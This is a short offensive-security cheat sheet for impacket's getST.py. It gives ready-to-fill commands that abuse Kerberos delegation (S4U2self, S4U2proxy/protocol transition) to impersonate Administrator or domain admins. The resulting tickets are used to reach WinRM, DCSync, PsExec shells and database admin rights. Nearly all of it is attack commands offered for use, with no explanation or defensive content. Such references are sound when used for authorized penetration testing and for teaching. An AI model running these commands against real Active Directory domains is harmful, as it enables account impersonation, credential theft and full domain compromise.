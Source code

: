 # getST (imp)

% impacket-kerberos, windows, kerberos, 88, delegation, TGS

## request TGS
```
getST.py  -spn <svc|host>/<target_fqdn> '<domain>'/'<user>':'<password>'
```

## Silver ticket (constrained delegation with protocol transition)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<target> -impersonate <target_user|Administrator> -dc-ip <dc_ip> '<domain>'/'<user>':'<password>'
```


## Silver ticket (S4U2self)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
using the machine account TGT
```
export KRB5CCNAME=<computer>.ccache
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/<computer_fqdn>" -k -no-pass -dc-ip <dc_ip> "<domain>"/'<computer>$' 
```

## use silver ticket
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```
